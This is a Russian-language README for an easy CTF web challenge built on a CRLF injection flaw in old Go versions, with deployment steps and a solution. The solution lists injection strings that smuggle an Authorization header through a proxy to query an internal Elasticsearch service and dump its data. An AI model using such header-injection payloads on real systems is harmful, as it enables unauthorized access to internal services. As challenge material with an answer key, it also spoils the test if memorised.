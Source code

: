 # Web | easy | Gap

# Информация
Псс, здаров! 

Начал изучать go, решил запилить прокси. Если доступ ограничат, то можно ходить через него. Правда он еще не все умеет...будем считать это alpha версией

## Деплой
1. Поменять флаг на нужный
2. При необходимости изменить порт таска (сервис прокси)
```bash
   cd deploy
   docker-compose up
```

## Выдать участникам
IP:PORT
Файл public/docker-compose.yml

## Описание
Таск основан на уязвимости CRLF в старых версиях go (<= 1.11.5). Задача - выполнить запрос к внутренним ресурсам, установив заголовок Authorization

## Решение
1. Заходим на страницу и вводим в поле строки
2. ```
   db:9200?pretty=true HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
   ```
   где (Y3RmY3VwOmN0ZmN1cA = base64(login:pass) = base64(ctfcup:ctfcup))

   таким образом мы понимаем, что там elasticsearch (если по порту это не ясно)
3. db:9200/_aliases?pretty=true HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
4. db:9200/smth_interesting/_search?pretty=true&q=*:* HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
5. Сдаем флаг

[exploit](solution/exploit.py)

# Флаг
Придумать и установить самим